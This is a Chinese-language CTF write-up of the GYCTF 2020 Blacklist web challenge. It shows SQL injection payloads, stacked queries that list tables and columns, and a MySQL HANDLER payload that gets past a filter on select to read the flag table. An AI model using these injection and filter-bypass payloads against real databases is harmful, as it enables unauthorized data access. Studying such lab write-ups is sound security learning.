 ```yaml
---
author: 
  name: Zephyr
title: GYCTF 2020 Blacklist
date: 2022-7-16 09:31:25
permalink: /pages/2e1547494524d1ca
tags: 
  - buuctf
  - web
  - SQLInjection
---
```


# GYCTF 2020 Blacklist

## 题目分析

首先看一下题目，很普通的一个查询页面：

![GYCTF_2020_Blacklist1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist1.png)

输入2a后返回以下页面，测试后是单引号字符型注入

![GYCTF_2020_Blacklist2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist2.png)

常规猜字段，字段数为2

![GYCTF_2020_Blacklist3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist3.png)

尝试联合注入`1' union select 1,2#`,提示被过滤了

![GYCTF_2020_Blacklist4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist4.png)

后续尝试报错注入，但过滤了很多东西，没试出结果，不过测试出了show可用，并且堆叠注入也可用

![GYCTF_2020_Blacklist5](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist5.png)

查表`1';show tables;`

![GYCTF_2020_Blacklist6](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist6.png)

查FlagHere表中的列`1';show columns from FlagHere;`

![GYCTF_2020_Blacklist7](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist7.png)



## 思路整理

- select关键字被过滤了无法使用
- flag所在的表名、列名已知
- 需要用其他函数或办法代替select查询出数据

## Handler语法

### 背景

- handler语句，一行一行的浏览一个表中的数据
- handler语句并不具备select语句的所有功能。
- mysql专用的语句，并没有包含到SQL标准中。
- handler语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

### 语法

```mysql
HANDLER table_name OPEN //打开一张表，无返回结果，实际上这里声明了一个名为table_nam的句柄
```

```mysql
HANDLER table_name READ FIRST //获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果
```

```mysql
HANDLER table_name CLOSE //关闭打开的句柄
```

```mysql
HANDLER table_name READ index_name = value //通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览
```

## Payload

回到本题，所以构造Payload如下：

```
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;
```

即可获得flag

![GYCTF_2020_Blacklist8](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GYCTF_2020_Blacklist8.png)